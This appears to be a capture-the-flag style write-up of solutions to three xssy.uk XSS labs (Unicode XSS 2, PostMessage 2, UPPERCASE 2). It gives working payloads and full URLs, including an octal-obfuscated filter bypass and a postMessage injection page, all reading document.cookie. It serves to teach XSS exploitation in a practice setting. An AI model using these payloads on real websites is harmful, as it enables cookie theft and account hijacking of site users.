 
## Master Level

### Lab 6: Unicode XSS 2
- **URL Lab**: https://xssy.uk/lab/6
- **Payload**: 
```
%0D%0A%CC%B8 onfocus="alert(document.cookie)" autofocus>
```
- **Full URL**: 
```
https://ozb2apmi.xssy.uk/target.ftl?name=%0D%0A%CC%B8+onfocus%3D%22alert%28document.cookie%29%22+autofocus%3E
```

---

### Lab 59: PostMessage 2 [Learning New]
- **URL Lab**: https://xssy.uk/lab/59
- **Target URL**: https://e3nwaisk.xssy.uk/
- **Payload**: 
```html
<body onload="exploit()">
    <script>
      function exploit() {
        var open = window.open("https://e3nwaisk.xssy.uk/", "exploit");
        window.setTimeout(() => {
          open.postMessage("https://e3nwaisk.xssy.uk/", "*");
          window.setTimeout(() => {
            open.postMessage("javascript:alert(document.cookie)", "*");
          }, 500);
        }, 500);
      }
    </script>
    <iframe name="exploit" />
</body>
```
- **Description**: If blocked because different origin postMessage, can use redirect loop in postMessage. Example:
  1. `window.open` https://e3nwaisk.xssy.uk/
  2. `setTimeout` redirect again to https://e3nwaisk.xssy.uk/
  3. Because https://e3nwaisk.xssy.uk/ & https://e3nwaisk.xssy.uk/ same origin, step 3 inject payload succeeds
  4. Inject payload: `open.postMessage("javascript:alert(document.cookie)", "*");`

---

### Lab: UPPERCASE 2
- **URL Lab**: https://xssy.uk/lab/208
- **Payload**: 
```
</p><body onload=[]["\146\151\154\164\145\162"]["\143\157\156\163\164\162\165\143\164\157\162"]("\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\143\157\157\153\151\145\51")()>
```
- **Full URL**: 
```
[https://orawjyjk.xssy.uk/target.ftl?name=%3C/p%3E%3Cbody%20onload=[][%22\146\151\154\164\145\162%22][%22\143\157\156\163\164\162\165\143\164\157\162%22](%22\141\154\145\162\164\50\144\157\143\165\155\145\156\164\056\143\157\157\153\151\145\51%22)()%3E]
```

---